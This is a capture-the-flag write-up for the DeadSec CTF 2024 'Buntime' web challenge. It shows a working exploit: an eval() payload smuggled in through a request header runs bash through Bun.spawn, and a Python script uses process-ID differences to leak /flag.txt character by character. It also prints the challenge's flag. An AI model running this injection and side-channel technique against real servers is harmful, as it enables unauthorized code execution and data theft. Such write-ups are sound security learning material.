


+++
title = 'DeadSec CTF 2024 Buntime'
date = 2024-07-29T13:00:00+02:00
categories = ['DeadSec CTF 2024', 'Web', 'Medium']
+++


## Initial Inspection
There's no souce code provided for the challenge. The only thing we're given to work with is a website that executes our input code presumably using Bun.


After playing around with it for a bit we know that it's Bun, since the ```Bun``` variable is available and allows us to call different methods.

## More Recon
There are quite a few limitations to our code:
- ```Bun.spawnSync``` function appears to be overwritten with a WAF message,
- WAF blocks our input from the POST body if it's too long (I didn't count it, but it's about ~30 chars give or take),
- We can't call ```await``` directly,
- Even though we can call ```Bun.spawn```, we seemingly can't write anywhere (tried ```/tmp``` and ```/dev/shm```),
- There's no outside network connectivity.

However, we're able to confirm that the flag is in ```/flag.txt``` by running ```Bun.file('/flag.txt').size```.


## PID Oracle
First, let's get around around the input length limitation. To achieve this, we'll move our payload to ```A``` header and execute it using ```"eval(request.headers.get('a'))```.



```Bun.spawn``` is available, and even though we:
- can't access its result directly since it's async,
- can't make a network call to our webhook,
- can't write anywhere.

We can get the PID of the spawned process syncronously.


Our plan is the following: we'll spawn a command that'll check if nth character of ```/flag.txt``` is equal to some character. If it is, we'll spawn more processes. This will make our next call result have a significantly higher PID, since the processes have their PIDs assigned incrementally. We'll check the difference of the resulting PIDs between calls to leak the flag content. This approach is prone to interference from others processes being started, but since we have our own instance for the challenge I haven't run into any problems with it. Here's my code to leak the flag:
```python
import requests
import string
import time

url = "https://2ca80b849337494b5275bf11.deadsec.quest/run"
headers_template = {
    "Host": "2ca80b849337494b5275bf11.deadsec.quest",
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.6367.60 Safari/537.36",
    "Content-Type": "application/json",
    "Accept": "*/*",
    "Origin": "https://2ca80b849337494b5275bf11.deadsec.quest",
    "Referer": "https://2ca80b849337494b5275bf11.deadsec.quest/",
    "Accept-Encoding": "gzip, deflate, br",
    "Accept-Language": "en-US,en;q=0.9",
    "Priority": "u=1, i"
}

payload = {"code": "eval(request.headers.get('a'))"}
last_result = None
flag_text = 'DEAD{'
character_set = string.ascii_letters + string.digits + ''.join(
    c for c in string.punctuation if c not in ["'", '"', '`'])
last_char = ''
pid_diff_threshold = 7

for i in range(6, 60):
    for j in character_set:
        command = f'[ "$(head -c {i} /flag.txt | tail -c 1)" == "{j}" ] && (sleep 10 & sleep 10 & sleep 10 & sleep 10 & sleep 10 &)'
        headers = headers_template.copy()
        headers["A"] = f"const command = '{command}';let s=Bun.spawn({{cmd: ['bash', '-c', command]}});s.pid"

        response = requests.post(url, headers=headers, json=payload)

        if response.status_code == 200:
            response_json = response.json()
            result = response_json.get("result")
            print(f"|Current flag: {flag_text}  | i: {i}, j: {j}, Result: {result}")

            if last_result is not None and abs(result - last_result) > pid_diff_threshold:
                flag_text = flag_text + last_char
                print(f'Found {i}: {last_char}, diff: {abs(result - last_result)}')
                last_result = result
                with open('results.txt', 'a') as file:
                    file.write(f"{i}, {last_char}\n")
                    file.flush()
                break

            last_result = result
            last_char = j

        else:
            print(f"Request failed for i: {i}, j: {j} with status code: {response.status_code}")

        time.sleep(0.3)

print(f"Flag: {flag_text}")

```

The command ```"$(head -c {i} /flag.txt | tail -c 1)" == "{j}" ] && (sleep 10 & sleep 10 & sleep 10 & sleep 10 & sleep 10 &)``` will spawn a few simple processes with ```sleep 10``` if the char in ```/flag.txt``` matches our guess. My manual testing showed me that the PIDs incremented by 4 if our last guess was wrong, and by 10 if our last guess was right. That's why I decided to set ```pid_diff_threshold = 7``` in the middle of these 2 values. The loop range ```for i in range(6, 60):``` goes from 6 since we know the first chars are ```DEAD{``` and up to 59 since that's the flag size we retrieved earlier (the last char could either be a newline or ```}``` but we'll be able to guess it anyway). We save each result to ```results.txt``` for manual inspection if anything goes bad. Here's the script running:



## Final Thoughts
The final flag was ```DEAD{BunT1m3_Fun_T1m3_Y0u_C4n_4lw4y$_Run_4$ync_1n$1d3_$ync}``` which indicates this is an unintended solution. PID oracle would be way more difficult on a shared instance, but thankfully each team had their own instancer and there was no problem making this work. Based on the amount of solutions (11), this was the most difficult web challenge in the CTF.
